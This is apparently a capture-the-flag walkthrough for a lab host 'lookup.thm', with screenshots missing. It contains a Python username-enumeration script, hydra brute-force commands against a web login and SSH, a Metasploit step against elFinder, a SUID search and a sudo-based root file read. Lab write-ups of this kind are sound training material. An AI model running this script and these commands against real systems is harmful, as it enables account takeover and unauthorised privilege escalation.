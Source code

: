 # lookup
the first thing is doing an nmap scan, and found that there are some ports that are open

   
But if we look closely at the websiteâ€™s behavior, we can observe that it is possible to enumerate valid usernames based on the error we are getting from the website upon a failed login:

Trying admin:admin


Trying fig:admin


We can write a small python script that would help us enumerate valid usernames:

import requests
import multiprocessing

target = 'http://lookup.thm/login.php'
username_file = '/usr/share/wordlists/seclists/Usernames/Names/names.txt'

def user_check(name):
    data = {"username": name, "password": "password"}
    try:
        response = requests.post(target, data=data, timeout=5)
        if "Wrong password" in response.text:
            print(f"User found: {name}")
    except requests.RequestException as e:
        print(f"[!] Error checking {name}: {e}")

if __name__ == "__main__":
    try:
        with open(username_file, 'r') as user_file:
            users = [line.strip() for line in user_file if line.strip()]

        # Use a pool with 30 worker processes
        with multiprocessing.Pool(processes=30) as pool:
            pool.map(user_check, users)

    except FileNotFoundError:
        print(f'Error: File path {username_file} does not exist.')



Using this scripts found  some users:

   

Now lets try a brute force for user jose using hydra:
 hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V

[80][http-post-form] host: lookup.thm   login: jose   password:

found one valid password for jose
Lets try login with user jose using the password that we found and we:
landed in something called “elFinder”. This looks like a file manager.

There are quite a few files here, and they all contain what seems to be passwords. Still, before we try another brute-force, let’s see if we can identify the version of elfinder:
Searching for known exploits for elfinder, we can see a metasploit module that targets versions before 2.1.48 :
We shall use metasploit
search elfinder 
then use 4
Lets see the available users : we see there is user root and think
There is a .passwords file here, which might be interesting, but we don’t have the permission to read it.

Let’s search for SUID binaries:

find / -perm /4000 2>/dev/null

![image](https://github.com/user-attachments/assets/6bec9d14-9965-47b6-9013-36054366e0d2)
Bingo, we tricked the binary into extracting “think” as the username, and we got back what seems to be a password list!
Let’s save that list to a file on our kali and try brute-forcing “think”

hydra -l think -P usr_think.txt ssh://lookup.thm

login using ssh
ssh think@lookup.thm   

to access root we use sudo look '' /root/root.txt




